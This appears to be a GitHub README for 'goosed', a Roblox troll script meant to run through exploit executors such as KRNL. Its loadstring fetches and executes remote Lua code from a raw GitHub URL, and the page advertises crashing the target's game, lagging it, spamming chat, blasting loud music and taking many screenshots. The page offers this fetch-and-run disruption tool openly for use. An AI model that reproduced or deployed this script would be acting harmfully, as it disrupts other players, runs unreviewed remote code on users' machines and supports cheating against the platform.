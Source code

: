 # goosed!!!

this script is best used on auto execute.
# Loadstring

```
_G.CrashMinutes = 1 -- changes how long until the game crashes
_G.Disco = true -- changes the changing colors
_G.ChatLol = true -- makes you chat or not
_G.FovChanger = true -- changes your fov
_G.SoundId = "http://www.roblox.com/asset/?id=6817682704" -- set to your sound

loadstring(game:HttpGet('https://raw.githubusercontent.com/gooserblx/youhavebeengoosed/main/realshit'))()
```
# Features

This script can do numerous annoying things! Like..

- Play loud music!
- Crash their roblox!
- Make them say "lol" so fast they can't chat!
- Change their FOV! 
- Lag their game!
- Take tons of screenshots!

# Executors

This script is compatible with ANY executor!!!

Except JJsploit, don't ever use JJSploit just use KRNL instead.

# Credits

Script Development: gooserblx

Testing: buffymcdTRUEFORMorginal and Drippy_bingus


